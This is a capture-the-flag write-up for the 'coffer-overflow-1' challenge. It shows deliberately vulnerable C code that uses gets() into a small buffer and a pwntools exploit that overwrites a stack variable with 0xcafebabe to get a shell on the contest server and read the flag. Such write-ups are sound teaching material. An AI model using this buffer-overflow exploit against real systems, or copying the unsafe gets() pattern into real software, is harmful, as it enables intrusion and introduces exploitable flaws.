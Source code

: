 # coffer-overflow-1
Author: [UltimateHG](https://github.com/UltimateHG)
### Slightly more advanced
This is a continuation of coffer-overflow-0.
We take a look at the source code:
```
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```
<br>
This time, we would need to not only overwrite `code`, but also overwrite it with value `0xcafebabe` in little endian.
We use the same approach as before, with a padding of 32-8 = 24 characters followed by `0xcafebabe` in little endian.
<br>
Here is the final exploit:

```
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-1")
p = remote("2020.redpwnc.tf", 31255)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0xcafebabe)
p.sendline(payload)
p.interactive()
```

This should redirect us to shell, and we with a simple `ls` we can see an entry `flag.txt`, so we simply do `cat flag.txt` to obtain the flag:
```
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```
